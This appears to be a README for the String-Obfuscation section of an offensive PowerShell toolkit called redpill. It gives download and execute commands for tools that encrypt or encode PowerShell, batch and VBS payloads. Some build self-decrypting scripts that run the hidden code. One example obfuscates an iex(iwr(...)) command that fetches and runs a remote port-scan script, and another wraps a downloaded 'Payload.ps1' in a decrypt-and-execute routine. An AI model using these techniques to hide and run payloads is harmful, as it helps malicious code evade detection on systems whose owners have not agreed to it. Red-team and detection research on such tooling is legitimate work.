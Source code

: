 ## Enc-rot13.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[enc-rot13](https://github.com/r00t-3xp10it/redpill/blob/main/lib/String-Obfuscation/enc-rot13.ps1)|Encrypt or decrypt strings using ROT13 cipher.|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/enc-rot13.png)<br />Creates decrypt script if sellected **-output ps1**<br />|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/enc-rot13.ps1" -OutFile "enc-rot13.ps1"
```

**execute:**
```powershell
.\enc-rot13.ps1 -text "whoami"
.\enc-rot13.ps1 -text "jubnzv"
.\enc-rot13.ps1 -text "whoami" -output ps1
.\enc-rot13.ps1 -text "whoami" -output logfile
.\enc-rot13.ps1 -infile "payload.ps1" -output ps1
```

<br />

## Out-EncodedSpecialCharOnlyCommand.ps1

|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Out-EncodedSpecialCharOnlyCommand|Generates Special-Character-Only encoded payload<br />for a PowerShell command or script.|User Land|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/bhoanoon1.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/2bhoanoon1.png)<br />[Screenshot3](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/output-to-file.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Out-EncodedSpecialCharOnlyCommand.ps1" -OutFile "Out-EncodedSpecialCharOnlyCommand.ps1"
```

**execute:**
```powershell
Import-Module -Name ".\Out-EncodedSpecialCharOnlyCommand.ps1" -Force
Out-EncodedSpecialCharOnlyCommand -ScriptBlock {Write-Host 'Hello World!' -ForegroundColor Green; Write-Host 'Obfuscation Rocks!' -ForegroundColor Green} -NoProfile -NonInteractive -PassThru
```

<br />

## Obfuscator.bat

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|obfuscator|Encrypt batch scripts|User Land|Dependencies: [certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) - [Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/obfuscator.png)|

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/obfuscator.bat" -OutFile "obfuscator.bat"
```

**execute:**
```powershell
.\obfuscator.bat Payload.bat
```

<br />

## vbs_obfuscator.vbs

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|vbs_obfuscator|Encrypt vbs scripts|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/vbs_obfuscator.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/vbs_obfuscator.vbs" -OutFile "vbs_obfuscator.vbs"
```

```vbs
#Manual
cscript.exe vbs_obfuscator.vbs Payload.vbs

#Automatic
cscript.exe vbs_obfuscator.vbs Payload.vbs > Buffer.vbs
$parse = Get-Content Buffer.vbs
echo $parse[3] > Buffer.vbs

- OR -
cscript.exe vbs_obfuscator.vbs Payload.vbs > Buffer.vbs
$parse = Get-Content Buffer.vbs|Select-String -Pattern "Execute chr"
echo $parse > Buffer.vbs
```

<br />

## Encrypt-String.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Encrypt-String|Encrypt commands \| scripts using a secret key of 113 bytes|User Land|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Encrypt-String.png) - [Encrypt-String.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/lib/String-Obfuscation/Encrypt-String.ps1)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Encrypt-Decrypt.png) - [Decrypt-String.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/encrypt_decrypt/Decrypt-String.ps1)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Encrypt-String.ps1" -OutFile "Encrypt-String.ps1"
```

**execute:**
```powershell
#Encrypt cmdline OnScreen
.\Encrypt-String.ps1 -action "console" -plaintextstring "whoami"

#Encrypt PS1 script and build decrypt script
.\Encrypt-String.ps1 -action "autodecrypt" -infile "Payload.ps1"

#Encrypt 'whoami' command + send encrypted string to the recipient email address (encrypted chat)
.\Encrypt-String.ps1 -action "console" -plaintextstring "whoami" -SendTo "pedroubuntu@gmail.com"
```

<br />

**Decrypt Strings**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/encrypt_decrypt/Decrypt-String.ps1" -OutFile "Decrypt-String.ps1"

#Decrypt cmdline OnScreen (encrypted chat)
.\Decrypt-String.ps1 -action "console" -EncryptedString "76492d1116743f0423413b16050a5345MgB8AHAARgBNAHgASABTAEIARQA5AEkAWgA5AFIAaQBkAGEAcQBKADkAdwBHAFEAPQA9AHwANQBhAGEANwBhADkAYQBhAGMANgAzADIAOQBmAGQAMwBmADEAMwAwADQAYwBmADgAZAA2AGIAYQBlADUAMABmAA=="
```

<br />

**Article:** https://github.com/r00t-3xp10it/redpill/tree/main/bypass/encrypt_decrypt

<br /><br />

## Convert-ROT47.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[Convert-ROT47](https://github.com/r00t-3xp10it/redpill/blob/main/lib/String-Obfuscation/Convert-ROT47.ps1)|Rotate ascii chars by nº places (Caesar cipher)|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Convert-ROT47.png)<br />[Decryption Rountine CmdLet Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Convert-ROT47_SimpleDecryption.png)<br />[Decryption_Routine_CmdLet_Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Convert-ROT47_IEXIWR.png)<br />Creates decrypt script if sellected **-action 'decryptme'**|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Convert-ROT47.ps1" -OutFile "Convert-ROT47.ps1"
```

**execute:**
```powershell
#Encrypt Text using from rot 5 to rot 10 char rotation
.\Convert-ROT47.ps1 -Text 'This is an encrypted string!' -Rot (5..10) -Encrypt
#Outputs:
#    Rot Text
#    --- ----
#      5 Vjku ku cp gpet{rvgf uvtkpi#
#      6 Uijt jt bo fodszqufe tusjoh"
#      7 This is an encrypted string!
#      8 Sghr hr `m dmbqxosdc rsqhmf~
#      9 Rfgq gq _l clapwnrcb qrpgle}
#     10 Qefp fp ^k bk`ovmqba pqofkd|


#Encrypt Text using rot 4
.\Convert-ROT47.ps1 -Text 'This is an encrypted string!' -rot 4 -Encrypt
#Outputs:
#    Rot Text
#    --- ----
#      4 Xlmw mw er irgv}txih wxvmrk%


#Decrypt rot 4 strings
.\Convert-ROT47.ps1 -Text 'Xlmw mw er irgv}txih wxvmrk%' -rot 4 -Decrypt
#Outputs:
#    Rot Text
#    --- ----
#      4 This is an encrypted string!


#Convert text to rot7 and build the decrypt script (decryptme.ps1)
.\Convert-ROT47.ps1 -Text 'whoami /priv;echo ""' -Rot "7" -Action "decryptme" -Encrypt
.\Decryptme.ps1


#Download demonstration cmdlet ( cmdlet contents are going to be converted to ROT8  later )
iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/auxiliary.ps1" -OutFile "Payload.ps1"
#Convert Payload.ps1 contents to rot8 and build the decrypt\execute routine script. (decryptme.ps1)
.\Convert-ROT47.ps1 -Infile "$pwd\Payload.ps1" -Rot "8" -Action "decryptme" -Encrypt
.\Decryptme.ps1


#Obfuscate the IEX(IWR('')) -Text 'string' and create the decryptme.ps1 that decrypt\execute the -text 'string' if executed ..
.\Convert-ROT47.ps1 -Text "iex(iwr('https://raw.githubusercontent.com/samratashok/nishang/master/Scan/Invoke-PortScan.ps1'));Invoke-PortScan -StartAddress '192.168.1.250' -EndAddress '192.168.1.254' -ResolveHost -ScanPort" -Rot "22" -Action "decryptme" -Encrypt
.\Decryptme.ps1
```

<br />

**Final Notes:**
```powershell
[Remark]: When invoking -action 'decryptme' parameter. We need to test if 'decryptme.ps1'
executes successfuly. If NOT then try to create it invoking a diferent ROT rotation.

[Remark]: Try to use single quotes ['] in -text 'string' parameter if possible OR
else its required to escape special chars like: ` $ " on -Text 'string' -Decrypt function.
```
